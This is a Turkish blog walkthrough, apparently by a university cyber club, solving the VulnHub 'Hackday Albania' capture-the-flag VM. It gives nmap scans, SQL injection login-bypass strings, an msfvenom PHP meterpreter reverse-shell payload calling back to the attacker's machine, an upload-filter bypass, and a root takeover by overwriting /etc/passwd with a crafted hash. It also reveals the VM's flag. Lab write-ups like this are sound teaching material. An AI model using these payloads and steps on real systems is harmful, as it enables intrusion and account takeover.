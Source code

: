 ```yaml
---
layout: post
title: Hack A Day Albania Walktrough
date: '2017-03-03 16:10:00 +0300'
categories: blog
---
```


Selam,  
Hack A Day Albania CTF sanal makinasının tam çözümünü yaptık, sizlerle paylaşmak istedik. Keyifli okumalar.  
  
    
__Hackaday Albania CTF__

VM hakkında ayrıntılı bilgi alabileceğiniz ve indirme bağlantısını bulabileceğiniz link aşağıdadır  

[VulnHub](https://www.vulnhub.com/entry/hackday-albania,167/)


__VM çözümü__  

İlk önce kendi sistemimizin nasıl bir ağ yapılandırması ile çalıştığını öğrenmek için  

```
ifconfig
```  

komutu ile kendi IP adresimizi ve Subnet Mask'ımızı öğrenip(192.168.1.0/24 ağında bulunuyorum)   

```
nmap 192.168.1.1/24
```  

komutunu kullanarak içinde bulunduğumuz ağda bulunan diğer cihazları bulmak için nmap aracını **192.168.1.1/24** 
ağına yönelik normal tarama yapması için çalıştırıyoruz. Tarama sonucunda, **192.168.1.10** IP adresine sahip hedefimizin üzerinde;
22 TCP portunda SSH, 8008 TCP portunda bir HTTP servisinin açık olduğunu keşfediyoruz.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/01.png)  


Fakat normal taramada (ki bu top 1000 porttur) açık olmayan, ama servis verir durumda olan bir port olup olmadığını öğrenmek
için hedef sisteme standart tarama yerine birde ayrıca full port taraması yapıyoruz, böylelikle top 1000 port arasında olmayan ama servis verir yani açık durumda olan portları da tespit edebilriz.  
Örnek olarak, kendi sistemimizde bulunan SSH servisini normalde hizmet vermesi gereken 22 numaralı porttan 1996 portuna taşırsak normal tarama ve full port tarama sonucu aşağıdaki gibi olacaktır.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/02.png)  


```
nmap -n -p 1-65535 -sV 192.168.1.10 --open
```  
    
komutu ile tüm açık TCP portlarını listeliyoruz ancak bunlara ek açık bir port göremiyoruz
bunun üzerine HTTP portuna yönelip browserımızda  
```
http://192.168.1.10:8080
```

adresine gitmeyi deniyoruz. 8008 portunu belirtmek zorundayız çünkü HTTP 
varsayılan portu 80 dir ve browser 80 portunu deneyeceği için hata alacaktır.
Siteye girdiğimizde bizi Elliot Alderson yani nam-ı diğer Mr.Robot
karşılıyor ve bilmediğimiz bir dilde yazılmış birkaç satır. Bu satırları google translateden
çevirince çok anlamlı çıkmasa da arnavutça yazılmış olduğunu anlıyoruz ve yazıda **nereye gideceğini
bildiğini** ifade ediyor. Sayfa kodlarında da birşey bulamayınca, 
hemen adresi **[Owasp ZAP](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)** aracında tarattığımızda birşey gözümüze çarpıyor:

```
robots.txt
```   
    

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/03.png)  


içerisindeki adresleri denediğimizde de hep aynı sayfa ve kaynak
kodlarında da ekstra birşey bulamıyoruz.  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/04.png)  


Fakat ortalara doğru

```
/unisxcudkqjydw
```

adresini girdiğimizde farklı bir sayfa ve bir ipucuyla karşılaşıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/05.png)  


tabi hemen ipucunu değerlendirip sonuna ekliyoruz. Yani adresi

```
http://192.168.1.10:8008/unisxcudkqjydw/vulnbank/
```

haline getiriyoruz ve gelen sayfadaki client linkini denediğimizde de bizi çok 
güvenli olduğunu iddia eden bir banka karşılıyor. Tabiki aklımıza hemen SQL Injection
geliyor ve tepki ölçmek adına kullanıcı ve parola kısmına birer tırnak(')
koyuyoruz. Oltaya takılan balık ilk başta bizi çok heyecanlandırıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/06.png)  


MySQL servisi kullanıldığını ve istismar et beni dercesine bakan bir mesajı
görüyoruz. Hemen büyük bir özgüvenle   

```
' or '1' = '1
```

olarak bilinen genel yöntemi deniyoruz ancak çok da sazan olmadığını
kanıtlarcasına bizi başta ürküten bir hata alıyoruz:


```
Invalid Credentials...
```


tabi ki pes etmeyip bikaç genel geçer yöntem daha deniyoruz ancak o bize, biz de
ona bakıyoruz. Sonra yorum satırı haline getirsek nolur diye düşünüp
username ve password'e:

```
' or 'aucc' = 'aucc';#
```

yazarak (sadece username'e yazıp password'ü gereksiz doldursanızda olur)
SQL sorgusu kodunu doğru döndürüp kalan sorguyu yorum haline getiriyoruz
ve 25000 euroluk hesabıyla bizi charles karşılıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/07.png)   


fakat gözümüz hala doymamış olacak ki sistem hedefinden şaşmayıp sağda duran **Contact Support**
kısmında file selecti görünce kalbimiz çarpıyor. Tabi durmayıp

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > aucc.php
```  

ile **192.168.1.5** IP adresli Kali Linux makinemizin 4444 portuna yönlendiren
bir php zararlı yazılımı, üretip onu da raw formatında **aucc.php** adında
bir dosyaya yazıyoruz ve metasploitimizi de resimdeki gibi hazırlayıp


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/08.png)  


bizi renklerle kandıracağını düşünenlere de mesajımızı vererek
**aucc.php** yi yüklemeye çalışıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/09.png)  


fakat hacklendikten sonra artık sadece jpg ve türevi kabul ediyoruz diyerek bize kapıyı gösteriyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/10.png)  


Biz de, al sana jpg diyip **aucc.php** nin adını **aucc.jpg** olarak olarak değiştirip
yepyeni bir sticker göndermesiyle yüklüyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/11.png)  


Ve dosyayı yedirmeyi başardık. Fakat msfconsole hala bekliyor yani bizim bu dosyayı açtırmamız lazım.
bıraktığımız Ticket'ın üzerine tıklayıp, sistem **aucc.jpg** dosyasını açmaya çalışınca
msfconsole da bir hareketlilik baş gösteriyor ve meterpreter konsolundayız. Bana göre sahte kısmı burada
başlıyor çünkü normal sistemlerde karşımıza kolay kolay çıkmayacak olan olayla burada karşılaştım.

```
/etc/group
```

dosyasından sudo yetkisine sahip kullanıcılara baktığımda 'taviso'yu görüp ona erişmeyi denesemde çözüm
bu olmadığından başaramadım. Fakat dediğim gibi karşımıza kolay kolay çıkmayacak şekilde

```
/etc/passwd
```

doaysının izinlerine baktığımızda write iznini farkediyoruz. Tabi **meterpreter** üzerinden bunu editlemek biraz
sancılı olacağı için

```
download /etc/passwd
```

ile Kali'ye hedef makinenin passwd dosyasını indiriyoruz. Eski linux sistemler şifreleri(hashlenmiş parolaları) de bu dosyada tutuyordu
fakat daha sonra istismar edilebilirliği daha doğrusu "bruteforce" u engellemek adına şifreleri **/etc/shadow** a
taşıyarak eskiden şifrelerin olduğu yere bir **x** bıraktılar ve bu yolla parola kontrolü için shadow a yönlendirme yaptılar.
shadow un okuma iznide yalnız rootta olduğu için bence "şimdilik yeterince güvenli" bir işe imza attılar. Bu bilgiyi kullanarak

```
openssl passwd -1 -salt tuzlu aucc
```

ile passwd formatında md5(-1) tipinde **tuzlu** ile saltlanmış yani bruteforce u zorlaştırmak adına önlem alınmış ve parola olarak 'aucc'nin 
hashini üretiyoruz ve çıktı olarak :

```
$1$tuzlu$LewyIW83SjgyBrkI29SWh0
```  

alıp bunu herhangi bir editörde "taviso"nun yanındaki 'x' in yerine yapıştırıyoruz(x'i siliyoruz) ve kaydedip çıkıyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/12.png)  


Root'un parolasını da değiştirebilik ancak ben sudo yetkili kullanıcıyı tercih ettim. Düzenlediğimiz bu dosyayı tekrar meterpreter'dan

```
upload passwd /etc/passwd
```

ile hedef sistemdeki passwd nin yerine yüklüyoruz. Artık SSH ile bağlanıp doğru düzgün bir shellde devam edebiliriz.

```
ssh taviso@192.168.1.10
```

ile bağlantımızı kurup parola olarak 

```
aucc
```

yazıyoruz ve içerdeyiz. Son olarak flagi **/root** dizininde bulup

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/13.png)  

```
cat /root/flag.txt
```

ile flag'i bastırıp flag'i gördüğümüze göre sanal makinemizde işimizi bitiriyoruz.

```
FLAG:

    Urime,

    Tani nis raportin!

    (arnavutça "tebrikler, şimdi rapor başlıyor!" yazıyor ve flagi veriyor)
```      
    **d5ed38fdbf28bc4e58be142cf5a17cf5**
    
    
      
 ---
 **[Hüseyin Erdem](https://twitter.com/rootofarch)**
